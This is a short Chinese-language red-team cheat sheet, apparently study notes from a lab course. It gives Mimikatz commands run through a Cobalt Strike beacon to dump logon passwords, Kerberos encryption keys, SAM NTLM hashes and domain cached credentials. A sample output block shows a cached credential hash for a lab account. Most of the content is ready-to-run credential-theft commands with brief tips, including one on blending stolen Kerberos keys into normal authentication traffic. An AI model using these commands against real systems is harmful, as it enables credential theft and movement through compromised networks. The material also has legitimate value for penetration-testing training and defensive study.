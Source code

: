 

# LogonPasswords

导出内存中的密码，有可能出现明文密码，但是可能性比较小。需要本地管理员权限
```
beacon> mimikatz sekurlsa::logonpasswords
```

上面命令在Cobalt Strike里的缩写

```
logonpasswords
```

# eKeys

这个 Mimikatz 模块将转储 Kerberos 加密密钥。

这个Mimikatz模块将转储Kerberos加密密钥。由于大多数Windows服务选择使用Kerberos而不是NTLM，利用这些比NTLM的哈希值更有意义，可以混入正常的认证流量。

以下命令需要本地管理员权限

```
beacon> mimikatz sekurlsa::ekeys
```


# Security Account Manager

 (SAM) 数据库仅保存本地帐户的 NTLM 哈希

 下面命令需要本地管理员权限
```
 beacon> mimikatz lsadump::sam
```


# Domain Cached Credentials

域缓存凭据

Domain Cached Credentials 的设计初衷是计算机离线以后还可以继续登录机器，可以离线提取和破解这些凭据以获得明文密码

注意：这里的哈希格式不是ntlm

```
beacon> mimikatz lsadump::cache

Domain : SRV-1
SysKey : 5d11b46a92921b8775ca574306ba5355

Local name : SRV-1 ( S-1-5-21-4124990477-354564332-720757739 )
Domain name : DEV ( S-1-5-21-3263068140-2042698922-2891547269 )
Domain FQDN : dev.cyberbotic.io

Policy subsystem is : 1.14
LSA Key(s) : 1, default {2f242789-b6b3-dc42-0903-3e03acab0bc2}
  [00] {2f242789-b6b3-dc42-0903-3e03acab0bc2} c09ac7dd10900648ef451c40c317f8311a40184b60ca28ae78c9036315bf8983

* Iteration is set to default (10240)

[NL$1 - 2/25/2021 1:07:37 PM]
RID       : 00000460 (1120)
User      : DEV\bfarmer
MsCacheV2 : 98e6eec9c0ce004078a48d4fd03f2419

```